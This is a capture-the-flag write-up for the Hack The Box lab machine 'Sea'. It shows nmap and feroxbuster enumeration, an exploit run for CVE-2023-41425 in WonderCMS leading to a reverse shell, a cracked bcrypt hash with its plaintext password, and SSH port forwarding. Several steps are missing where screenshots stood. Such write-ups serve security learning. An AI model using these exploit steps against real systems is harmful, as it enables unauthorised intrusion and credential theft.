




## Box Info

| Name                  | Sea              | 
| :-------------------- | ---------------: |
| Release Date          | 10 Aug, 2024     |
| OS                    | Linux            |
| Rated Difficulty      | Easy             |

## **Enumeration**

```bash
nmap -p- --open --min-rate 5000 -n -sS -vvv -Pn 10.10.11.28 -oG allports
nmap -sCV -p 22,80 10.10.11.28 -oN targeted
```

- ttl = 63 aprox 64 = linux

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-17 16:53 EDT
Nmap scan report for 10.10.11.28 (10.10.11.28)
Host is up (0.079s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
|   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
|_  256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Sea - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

Googling the version of ssh we can see what we are up against.

`Ubuntu focal`


Web: The first impression is we have a register page `contact` in `PHP`.




#### Resolution DNS

Add sea.htb to hosts.


The first thing what i was do is if web is created with some CMS or some technology vulnerability, but there nothing, so we go to run a scan directory and see what we have.


What i know for now is  i can upload any link in the section website.



## Scan Directory

After scan directory with dirsearch, I got some directories but they dont say anything if theres some vulnerability, so we gonna use feroxbuster and some directory lists and see what i get with it

```bash
feroxbuster -u http://sea.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


I see file in `/themes/bike/` (LICENSE with status 200) we will try to FUZZ that section and we see if i found another files.

```bash
feroxbuster -u http://sea.htb/themes/bike/ -t 100 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,js,md
```


### Vulnerability

Theme.php, version, README.md, LICENSE files


Now we have a vulnerability.

#### CVE-2023-41425

https://github.com/prodigiousMind/CVE-2023-41425?source=post_page-----7ebffbff37d2--------------------------------


Follow the instructions of repository.

```python
python3 exploit.py http://sea.htb/wondercms/loginURL 10.10.11.28 9001
```


The script make us a file "xss.js" and we need to send the link in the section website of form. Once send the form make us a file in the path /themes/revshell-main/rev.php that need execute for got the reverse shell.


This the path what need to execute but we need to add the ip and port of attacker machine.


### Shell as www-data

Attacker machine:


Till now we have geo and amay users.


We found the path of database with a password.


### Hashcat

Hash bcrypt

Before we need to remove the scape slash `\`.

`$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q`


Password: `mychemicalromance`

### User amay


## Port Forwarding
SFTP Tunneling


```bash
ssh -L 48763:localhost:8080 amay@10.10.11.28
amay@10.10.11.28's password:
```


`amay`
`mychemicalromance`

## System Log and Monitoring







Rooted! :-)